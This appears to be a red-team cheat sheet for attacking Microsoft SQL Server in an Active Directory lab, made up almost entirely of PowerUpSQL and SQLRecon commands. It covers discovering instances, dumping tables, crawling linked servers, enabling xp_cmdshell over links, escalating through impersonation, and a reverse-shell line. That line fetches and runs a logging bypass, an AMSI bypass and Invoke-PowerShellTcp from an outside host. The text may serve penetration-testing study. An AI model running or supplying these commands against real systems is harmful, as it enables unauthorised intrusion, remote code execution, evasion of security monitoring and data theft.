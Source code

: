 ### Reconnaissance ###
#### 1. Identify Local and Domain SQL Server Instances ####
- Discover Local SQL Server Instances
`Get-SQLInstanceLocal`

- Discover Domain SQL Server Instances
`Get-SQLInstanceDomain -Verbose`

- Get Server Info for Domain SQL Server Instances
`Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`

- Check Network Accessibility for Domain SQL Server Instances
`Get-SQLInstanceDomain | Get-SQLConnectionTest`

- List SQL Servers that use a specific domain account
`Get-SQLInstanceDomain -Verbose -DomainAccount svcadmin`

- Automate Information Gathering
`Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo`

- Find the Roles that the current user has in a SQL Server Instance
`.\SQLRecon.exe /a:WinToken /h:us-mssql.us.techcorp.local,1433 /m:whoami`

- Find users that have the *sql* string in their samaccountnames
`Get-DomainUser -Identity *SQL* | Select-Object samaccountname,cn,description`

- Find appropriately named domain groups and their members.
`Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }`

- Find MSSQL Impersonation Configurations in a SQL Server Instance
	- `.\SQLRecon.exe /a:WinToken /h:us-mssql.us.techcorp.local,1433 /m:impersonate`

	- `Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';"`
	- `Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;"`
#### 2. Querying the Databases ####
- Find non-default Databases in Domain SQL Server Instances
`Get-SQLInstanceDomain | Get-SQLDatabase -NoDefaults`

- List all databases in SQL Server Instances (Local or Domain)
`Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT name FROM master.dbo.sysdatabases"`

- Get Tables from a Specific Database
	- `Get-SQLTable -Instance us-mssql.us.techcorp.local -DatabaseName msdb`

	- `Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT table_name from master.INFORMATION_SCHEMA.TABLES"`

- List Table Columns on a Specific Database
`Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM sys.columns WHERE object_id = OBJECT_ID('dbo.spt_values')" | Select-Object name`

- Dump Table content from a Specific Database
`Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * from [master].[dbo].spt_monitor"`
#### 3. Enumerate Database Links ####
- Crawl Trusted Links
	- `Get-SQLInstanceDomain | Get-SQLServerLink`
	
	- `Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM master..sysservers"`

- Further Crawl Trusted Links using Nested Queries
	-  ```Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM openquery(`"DB-SQLPROD`",'SELECT * FROM master..sysservers')" | Select-Object srvname,srvproduct```
	 	 
	- ```Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM openquery(`"DB-SQLPROD`",'SELECT * FROM openquery(`"DB-SQLSRV`",''SELECT * FROM master..sysservers'')')" | Select-Object srvname,srvproduct```

- Recursively Crawl Trusted Links
`Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Verbose`

- Determine Names of Linked Databases
```Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * FROM sys.databases')" | Select-Object name```

- List all the Tables Names from a Selected Linked Database
```Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * FROM master.sys.tables')" | Select-Object name```

- Dump Table content from a Selected Linked Database
```Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * from [master].[dbo].spt_monitor')"```
#### 4. Command Execution ####
- Enumerate current state of `xp_cmdshell`
`Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';"`

- Execute OS commands: `xp_cmdshell`
`Invoke-SQLOSCmd -Instance us-mssql.us.techcorp.local -Command whoami`

- Execute OS commands using Linked Databases
`Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query "exec master..xp_cmdshell 'whoami'"`

- Get a reverse shell on a target Linked Database where `xp_cmshell` is enabled
`Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.57/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.57/amsibypasscrtp.txt);iex (iwr -UseBasicParsing http://192.168.100.57/Invoke-PowerShellTcp.ps1)"''' -QueryTarget DB-SQLPROD`

- Enable `RPC Out` and `xp_cmdshell` in a database link that is configured to use the `sa` account.
`Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"`
`Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"`
`Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""`
`Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""`
#### 4. Privilege Escalation ####
- From OS admin to sysadmin via service account impersonation -> then all PowerUpSQL commands can be run as a sysadmin.
`Invoke-SQLImpersonateService -Verbose -Instance us-mssql.us.techcorp.local`

- Run Impersonation Mode
`\SQLRecon.exe /a:windows /h:us-mssql.us.techcorp.local,1433 /m:iwhoami /i:DEV\mssql_svc`
